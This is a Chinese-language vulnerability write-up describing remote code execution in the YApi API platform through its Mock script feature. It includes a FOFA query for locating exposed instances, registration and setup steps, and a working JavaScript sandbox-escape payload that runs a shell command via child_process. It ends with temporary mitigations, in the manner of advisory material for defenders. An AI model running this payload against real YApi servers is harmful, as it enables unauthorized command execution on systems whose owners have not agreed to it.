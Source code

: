 # YApi 高级 Mock 远程代码执行漏洞

## 漏洞描述

YAPI接口管理平台是国内某旅行网站的大前端技术中心开源项目，使用mock数据/脚本作为中间交互层，为前端后台开发与测试人员提供更优雅的接口管理服务，该系统被国内较多知名互联网企业所采用。

YApi 是高效、易用、功能强大的 api 管理平台。但因为大量用户使用 YAPI的默认配置并允许从外部网络访问 YApi服务，导致攻击者注册用户后，即可通过 Mock功能远程执行任意代码。

## 漏洞影响

> YApi

## FOFA

> app="YApi"

## 漏洞复现

注册页面如下：

![image-20210708202714253](resource/YApi高级Mock远程代码执行漏洞/image-20210708202714253.png)

随便注册一个号，然后进行登录，登录进去以后点击添加项目：

![image-20210708202831050](resource/YApi高级Mock远程代码执行漏洞/image-20210708202831050.png)

随便写一个项目名字，然后在项目里再点击添加接口：

![image-20210708202946281](resource/YApi高级Mock远程代码执行漏洞/image-20210708202946281.png)

![image-20210708203012647](resource/YApi高级Mock远程代码执行漏洞/image-20210708203012647.png)

创建好了以后进入设置，进入mock配置：

![](resource/YApi高级Mock远程代码执行漏洞/image-20210708203700140.png)

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("whoami").toString()
```

点击保存以后，然后再访问我们的mock地址：

![image-20210708203729237](resource/YApi高级Mock远程代码执行漏洞/image-20210708203729237.png)

![image-20210708203751173](resource/YApi高级Mock远程代码执行漏洞/image-20210708203751173.png)

> ##修复建议
该漏洞暂无补丁。

> 临时修复建议：

> 关闭YAPI用户注册功能，以阻断攻击者注册。
利用请求白名单的方式限制 YAPI 相关端口。
排查 YAPI 服务器是否存在恶意访问记录。